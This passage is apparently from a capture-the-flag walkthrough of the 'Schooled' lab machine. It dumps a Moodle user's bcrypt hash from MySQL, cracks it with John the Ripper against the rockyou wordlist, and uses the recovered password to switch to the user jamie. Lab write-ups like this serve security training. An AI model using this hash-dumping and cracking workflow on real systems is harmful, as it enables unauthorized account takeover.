 ```
+----+--------+-----------+--------------+---------+-----------+------------+----------+--------------------------------------------------------------+----------+-----------+----------+--------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+--------+---------+-----+-------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+------------------+
|  2 | manual |         1 |            0 |       0 |         0 |          1 | admin    | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |          | Jamie     | Borham   | jamie@staff.schooled.htb |         0 |     |       |       |     |     |        |        |             |            |         | Bournemouth | GB      | en   | gregorian    |       | 99       |  1608320129 | 1608729680 | 1608681411 |   1608729680 | 192.168.1.14 |        |       0 |     |             |                 1 |          1 |          0 |           0 |             1 |           0 |           0 |   1608389236 |            0 |          |                  |                   |            |               |                  |
+----+--------+-----------+--------------+---------+-----------+------------+----------+--------------------------------------------------------------+----------+-----------+----------+--------------------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+-------------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+--------------+--------+---------+-----+-------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+------------------+
1 row in set (0.00 sec)

moodle@localhost [moodle]>
```

### John

To crack the password, we'll use john:

```
└─$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt jamie_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:01:54 DONE (2021-09-11 12:42) 0.008765g/s 121.8p/s 121.8c/s 121.8C/s aldrich..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We now have the following creds:\
jamie:!QAZ2wsx

Let's see if we can switch users:

```
[www@Schooled /]$ su jamie
Password:
$ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
$ 
```
